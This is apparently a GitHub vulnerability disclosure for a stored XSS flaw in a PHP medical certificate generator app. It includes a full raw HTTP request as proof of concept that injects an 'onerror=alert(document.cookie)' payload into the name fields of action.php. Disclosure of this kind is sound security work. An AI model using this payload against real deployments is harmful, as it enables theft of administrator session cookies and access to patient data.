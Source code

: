 ## Medical Certificate Generator App has xss


## supplier
https://www.sourcecodester.com/php/16105/medical-certificate-generator-app-using-php-and-mysql-free-download.html

## Vulnerability file
/php-med-cert-generator/action.php?action=save_record


## describe
Medical certificate generator app that allows unlimited xss attacks. An attacker could exploit this vulnerability to directly obtain the administrator cookie without authorization.

POC

The lastname, firstname, and middlename parameters all have stored XSS vulnerabilities.
```
POST /php-med-cert-generator/action.php?action=save_record HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 477
Origin: http://localhost
Connection: close
Referer: http://localhost/php-med-cert-generator/?page=manage_record&id=1
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=1&lastname=%3Cimg+src%3D1+onerror%3Dalert(document.cookie)%3E&firstname=%3Cimg+src%3D1+onerror%3Dalert(document.cookie)%3E&middlename=%3Cimg+src%3D1+onerror%3Dalert(document.cookie)%3E&suffix=Jr.&dob=1997-06-23&gender=Male&civil_status=Married&contact=09123654789&nationality=Filipino&address=Sample+Address&diagnostic=Flu&remarks=is+advising+the+above+individual+should+take+at+least+3-4+days+to+fully+recover+from+his+illness.&doctor_fullname=Claire+Blake&doctor_suffix=MD

```
<img width="1286" alt="image" src="https://github.com/user-attachments/assets/4c455e4d-7e32-4d89-9226-76bba059b363">


<img width="1531" alt="image" src="https://github.com/user-attachments/assets/80764409-a22f-4766-b27d-a1ffc4298829">








